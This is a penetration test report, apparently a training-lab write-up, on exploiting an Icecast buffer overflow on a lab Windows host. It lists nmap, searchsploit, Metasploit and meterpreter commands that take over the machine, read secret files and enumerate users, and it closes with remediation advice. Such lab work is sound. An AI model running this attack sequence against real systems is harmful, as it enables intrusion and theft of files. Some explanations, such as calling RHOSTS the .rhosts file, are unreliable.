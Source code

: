     GoodSecurity Penetration Test Report 

    Abdisalan-Firin@GoodSecurity.com

    DATE
    11/01/2021

 ### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploit two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.
       2.0 Findings

### Machine IP:
    192.168.0.20
### Hostname:
    MSEDGEWIN10
### Vulnerability Exploited:
    Exploit/windows/http/icecast_header

    Vulnerability Explanation:

The Vulnerability i found Icecast application running on 192.168.0.20 allows for a buffer overflow exploit and any attacker can remotely gain control of the victim’s system by overwriting the memory on the system utilizing the Icecast flaw, which writes past the end of a pointer array when receiving 32 HTTP headers. this will overwrite the saved instruction pointer and leave Icecast thinking one of the processor threads is still occupied by one of its methods; in reality, the running process is a malicious payload.

Some remote actions able to be executed are:

    File discovery
    Key logging 
    screen capture
    Privilege escalation to Administrator 
I also find this vulnerable to the following exploits:

    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

### Severity:

This exploit is very severe and Critical as it allows malicious actors to run any manor of arbitrary code on the host’s machine.

### Proof of Concept:

1. Perform a service and version scan using Nmap to determine which services are up and running: 
    nmap -sS -sV -O 192.168.0.20

nmap -sS it stands for TCP SYN port scan, where the -sV for is determine the version of the service running on port, and that the -O is the Remote OS detection using TCP/IP.
After scanning networks for vulnerabilities, we can execute the exploits that we know an organization is vulnerable to.

    Using nmap to scan the system to see any port open
 ![using nmap to scan the system](./Images/snep-1.PNG)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   
     searchsploit -t Icecast windows
<Result> (exploits/windows_x86/remote/16763.rb)

Now we’ll use a tool called SearchSploit to locally store a library of exploit information and the scripts used to execute the exploits.


    Icecast exploits
![icecast exploits](./Images/snap-2.PNG)


3. Start Metasploit and search for the Icecast module and load it for use.:
 
    >Msfconsole.
    
    >Search icecast.
    
    >Use 0.

MSFconsole provides a command line interface to access and work with the Metasploit.
The Metasploit is a computer security that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. 

    starting metasploit and searching icecast
 ![RHOST setting](./Images/snap-x.PNG)
 
 ![Metasploits](./Images/snap-3.PNG)

 ![Metasploits](./Images/snap-y.PNG)

4. Set the `RHOST` to the target machine and run.

    set RHOSTS 192.168.0.20.
    run.

 Rhosts allows me to log in to a UNIX-based system from another computer on the same network.
 The rhosts file contains a list of hosts and user names that determines who can log in to a system remotely without a password

    Setting RHOST to IP adress
![RHOST setting](./Images/snap-4.PNG)


5. Search for the `secretfile.txt` on the target.

    meterpreter > search -f *secret*.

OR

    meterpreter > shell.

Meterpreter allows me to remotely take over the compromised system, having control of the file system, collect sensitive information such as credentials and secret files.
    
    The search of the secret 
![The search of secret file](./Images/snap-xy.PNG)

6. Search for the `recipe.txt` on the target and download the file:
    meterpreter > search -f *recipe*
    meterpreter > cd 'C:\Users/IEUser/Documents
    meterpreter > ls
    meterpreter > cat Drinks.recipe.txt
    meterpreter > cat user.secretfile.txt

    Search of the recipe
    ![search of the recipe](./Images/snap-6.PNG)
    
    ![search of the recipe](./Images/snap-f.PNG)

7. Use Meterpreter's local exploit suggester to find possible exploits.
    
    meterpreter> run post/multi/recon/local_exploit_suggestor

The system was also found to be vulnerable to the following exploits:
    
    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

    Using meterpreter for local exploit
   ![Using meterpreter for local exploit](./Images/snap-7.PNG)

8. Run a Meterpreter post script that enumerates all logged on users.
    
    run post/windows/gather/enum_logged_on_users
    
    
    Using meterpreter post script
  ![Using meterpreter post script](./Images/snap-8.PNG)

9. Running the sysinfo command
 
    system info
 ![sysinfo](./Images/snap-9.PNG)

 ![sysinfo](./Images/snap-a.PNG)
 
 ![sysinfo](./Images/snap-b.PNG)

### Overall Recommendations

Icecast exploit is old and the vulnerability can be fixed with a patch or Install the latest version of this and all other software.
Encrypt the files and folders that you want to keep a secret
Enable the windows firewall with rules to only explicitly allow traffic on needed ports.